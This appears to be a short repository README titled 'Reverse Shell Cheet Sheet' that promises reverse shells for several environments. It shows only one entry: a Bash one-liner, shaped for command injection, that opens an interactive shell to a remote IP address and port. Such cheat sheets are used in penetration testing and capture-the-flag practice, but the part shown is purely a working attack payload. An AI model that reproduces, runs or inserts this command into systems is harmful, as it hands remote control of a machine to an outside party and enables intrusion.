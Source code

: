 # Reverse Shell Cheet Sheet
Collection of deferent environment Reverse Shells

# Bash
;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.46/1235 0>&1' #

